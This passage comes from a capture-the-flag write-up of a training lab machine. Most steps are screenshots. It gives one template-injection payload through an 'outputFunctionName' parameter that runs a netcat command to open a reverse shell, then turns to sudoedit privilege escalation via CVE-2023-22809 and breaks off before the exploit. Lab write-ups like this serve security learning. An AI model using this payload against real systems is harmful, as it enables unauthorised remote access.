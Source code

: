 Now, we can use it to obtain a shell, first by using our web server to serve a reverse shell payload.

Create a `index.html` file with this inside:

![](gitbook/cybersecurity/images/Pasted%20image%2020241106160836.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241106160911.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241106160440.png)

Once, I sent the request, it seemed like the web server was unable to read my index.html file, so, I changed the request to this, and got a shell:

```ad-hint

##### USED

`&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.6.34.159 4444 -e bash');s`

#### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241106161910.png)


```

## PRIVILEGE ESCALATION

***

First, let's \[\[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] our shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241106162117.png)

Nice, with our new stabilized shell, we can look forward to escalate our privileges into root, let's enumerate the machine:

### SUDO -L

![](gitbook/cybersecurity/images/Pasted%20image%2020241106162209.png)

We can run sudo in

\`sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

#### SUDOEDIT VERSION

![](gitbook/cybersecurity/images/Pasted%20image%2020241106162300.png)

For this version, we found [CVE-2023-22809](https://access.redhat.com/security/cve/cve-2023-22809), let's exploit it and escalate our privileges:
